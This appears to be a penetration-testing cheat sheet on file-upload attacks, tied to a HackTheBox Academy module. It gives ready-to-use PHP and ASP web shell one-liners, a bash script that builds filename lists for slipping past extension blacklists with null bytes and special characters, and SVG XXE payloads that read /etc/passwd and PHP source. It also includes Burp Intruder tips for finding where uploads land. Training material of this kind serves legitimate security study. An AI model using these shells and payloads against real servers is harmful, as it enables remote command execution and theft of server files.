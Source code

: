>⚠️ **PAY ATTENTION:**
>
>Use BurpSuite Intruder with the Sniper option to check for extensions that work. Make sure to disable `URL Encoding`.
>
>Change the content of the petition to the desired payload.
>
>Check the source code and fuzz directories to find where it's being uploaded.

> ⚠️ **PAY ATTENTION:**
> 
> Be sure to combine all bypasses to see if it works.
> 
> Be sure to check if by adding a MIME-Type at the beginning of the file helps bypass it, if trouble arises, inject the payload to the middle of the file approximately directly in BurpSuite.

## Check Content Type
> ⚠️ **PAY ATTENTION:**
> 
> Check for accepted content type to see if we can use other type of upload attack (SVG!).

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

## Web Shells

|**Web Shell**|**Description**|
|---|---|
|`<?php file_get_contents('/etc/passwd'); ?>`|Basic PHP File Read|
|`<?php system('hostname'); ?>`|Basic PHP Command Execution|
|`<?php system($_REQUEST['cmd']); ?>`|Basic PHP Web Shell|
|`<% eval request('cmd') %>`|Basic ASP Web Shell|
|[PHP Web Shell](https://github.com/Arrexel/phpbash)|PHP Web Shell|
|[PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)|PHP Reverse Shell|

## Bypasses

|**Command**|**Description**|
|---|---|
|**Blacklist Bypass**||
|`shell.pHp`|Case Manipulation|
|[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)|List of PHP Extensions|
|[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)|List of ASP Extensions|
|[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)|List of Web Extensions|
|**Content/Type Bypass**||
|[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)|List of All Content-Types|
|[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)|List of File Signatures/Magic Bytes|

## Limited Uploads

|**Potential Attack**|**File Types**|
|---|---|
|`XSS`|HTML, JS, SVG, GIF|
|`XXE`/`SSRF`|XML, SVG, PDF, PPT, DOC|
|`DoS`|ZIP, JPG, PNG|


### Generate PHP Extension List
```bash
#!/bin/bash

# Clear the wordlist file if it exists
> wordlist.txt

# List of PHP extensions
php_exts=('.php' '.phps' '.phtml' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.pgif' '.phtm')

# List of image extensions
img_exts=('.jpg' '.png')

# List of special characters
chars=('%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':')

# Pattern 1: Just shell with PHP extensions
for ext in "${php_exts[@]}"; do
    echo "shell$ext" >> wordlist.txt 
done

# Pattern 2: Shell with PHP extension + image extension
for ext in "${php_exts[@]}"; do
    for img in "${img_exts[@]}"; do
        echo "shell$ext$img" >> wordlist.txt    # shell.php.jpg
        echo "shell$img$ext" >> wordlist.txt    # shell.jpg.php
    done
done

# Pattern 3: Shell with special characters between extensions
for char in "${chars[@]}"; do
	    for ext in "${php_exts[@]}"; do
        for img in "${img_exts[@]}"; do
            echo "shell$ext$char$img" >> wordlist.txt    # shell.php:.jpg
            echo "shell$char$ext$img" >> wordlist.txt    # shell:.php.jpg
            echo "shell$img$char$ext" >> wordlist.txt    # shell.jpg:.php
        done
    done
done

```

### Generate Smaller PHP Extension List
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### SVG Read File
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

### SVG Read PHP Source Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

## File Upload Prevention
https://academy.hackthebox.com/module/136/section/1309


https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files